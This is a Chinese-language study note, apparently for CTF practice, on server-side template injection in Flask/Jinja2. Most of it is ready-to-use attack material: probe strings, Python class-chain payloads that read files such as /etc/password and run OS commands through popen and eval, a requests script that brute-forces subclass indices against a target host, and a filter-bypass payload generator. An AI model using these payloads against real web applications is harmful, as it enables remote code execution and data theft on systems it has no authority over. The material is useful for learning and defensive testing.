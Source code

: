 ## 简介：
Flask 渲染模板的方法有 `render_template()`，通过这个方法，我们可以渲染一个指定的文件：
```
return render_template('index.html');
```

也可以通过 `render_template_string` 来渲染一个指定的字符串
```
html='This is index page'
return render_template_string(html);
```

### 引擎特点：
![[Pasted image 20240427215154.png]]

也就是说，我们的引擎中，可以通过对应的装载变量，来让我们能够把我们的对应的内容显示到我们的前端当中。

这个时候，我们在**解析我们的对应的变量的时候**，遵循下面的规则：
1. 我们先将我们的输入的元素**进行一次 eval**
2. 然后将我们的 eval 后得到的结果，**转换为字符串**，
3. 将我们得到的字符串**显示到前端**。

可以看见，我们的模板注入漏洞能够被使用，当且仅当我们存在一个**二次渲染**。所谓的二次渲染，也就是我们在渲染我们的模板前，已经把我们的对应位置设定为了我们之前的某一个参数，例如：
![[Pasted image 20240427220044.png]]

这个时候，我们如果让我们的 str 为一条特定的攻击语句，那莪我们就可以实现我们的 **RCE**。具体来说，我们可以在这里写上一个新的 `{{}}` 结构，从而可以让我们执行我们的 `{{}}` 结构内的内容，而不是我们的其他内容。
## 测试漏洞:
```
{{4*4}}
[[5*5]]
{{7*'7'}}---》7777777
{{config.items()}}
```



## 构造思路：
第零步：我们希望通过我们的元素找到我们的对应的 python 版本


我们的构造思路是：在我们的内部，通过一次代码执行，找到我们的对应的 flask 注入，我们对于我们的这一次代码执行，存在下面的要求：
1. 我们通过一次执行，我们的起始环境是一个什么都没有的 python 环境
2. 我们的代码不能换行，只能通过一行**链式操作**来完成我们的对应的 flask 注入

同时注意一些语法细节：有些时候我们得到的元素是一个**元组**，而不是一个类，我们需要通过取对应的元素来得到我们的对应的结果。

为此，我们需要使用到我们的 python 当中的大量**魔术方法**，我们对应的内容在我们的 python 相关基础中有对应阐述，这里我们只阐述几个常见的思路：
1. 找到我们的 python 当中的 file 类，通过 file 类中的对应的 write 函数，read 函数来得到对应的内容：或者通过我们的 system 模块中的 open 函数
```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(file类对应的下标)('/flag.txt').read()}}
```
2. 通过我们的 python 当中导入我们的 os 模块，通过使用 os 模块中的 popen+指令名+read 或者通过我们的 os 模块+system 方法+指令名来执行，我们取**搜索含有 popen 方法的类即可**
```python
"".__class__.__bases__[0].__subclasses__()[161].__init__.__globals__['popen']('whoami').read()
```

4. 通过我们找到所有类当中的一个子类，其中的全局方法中含有 builtins 这个方法，然后再通过 builtins 去调用我们的 eval 方法，来执行我们的对应的函数。我们对应苏**搜索__builtins__这个类就行了**

```python
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```

4. 通过我们的 import 方法，导入我们的一些系统自带的库，然后通过这一个库来得到我们的最终结果。






## 找到相关类：
### 方法一：本地跑：
```
search = 'popen' #可以替换为任何你需要的函数,或者类
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```

### 方法二：连对方靶机跑：
```
import requests
import time
import html
for i in range(0,300):
    time.sleep(0.06)
    payload="{{().__class__.__mro__[-1].__subclasses__()[%s]}}" % i
    url='http://ip:5000?name='
    r = requests.post(url+payload)
    if "catch_warnings" in r.text:
        print(r.text)
        print(i)
        break 
```

## 常见payload：
```
1. 读取config信息
{{config}}
{% for key,value in config.items()%}
<dt>{{key|e}}</dt>
<dd>{{key|e}}</dd>
{% endfor%}
```

```
2. 文件读取
{{[].__class__.__bases__[0].__subclasses__()[40]('/etc/password').read()}}

{{config.items()[4][1].__class__.__base__[0].__subclasses__()[40]("/tmp/flag").read()}}
```

```
3.命令执行
[].__class__.__base__[0].__subclasses__()[50]__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')
```

```
4.动态执行：
{% for x in ().__class__.__base__[0].__subclasses__()%}
{% if "warning" in x.__name__%}{
x().__module__.__builtins__['__import__']('os').popen(你要执行的指令).read()}}{% endif%}{%endfor%}
}
```

![[Pasted image 20240427223629.png]]

## 通杀模板：
```
    arg_globals = "(dict(request|attr('args'))|attr('pop'))('1')"
    arg_builtins = "(dict(request|attr('args'))|attr('pop'))('2')"
    arg_import = "(dict(request|attr('args'))|attr('pop'))('3')"
    arg_os = "(dict(request|attr('args'))|attr('pop'))('4')"
    arg_popen = "(dict(request|attr('args'))|attr('pop'))('5')"
    arg_cmd = "(dict(request|attr('args'))|attr('pop'))('6')"

    glo = "(lipsum|attr(%s))"%(arg_globals)
    buil = "((%s|attr(%s))(%s))"%(glo,arg_getitem,arg_builtins)
    impo_os = "(((%s|attr(%s))(%s))(%s))"%(buil,arg_getitem,arg_import,arg_os)
    popen = "((%s|attr(%s)))"%(impo_os,arg_popen)
    popen_cmd = "(%s(%s))"%(popen,arg_cmd)
    read = "(%s|attr('read'))()"%popen_cmd
    s = "{%%print(%s)%%}"%(read)

    print(s)
```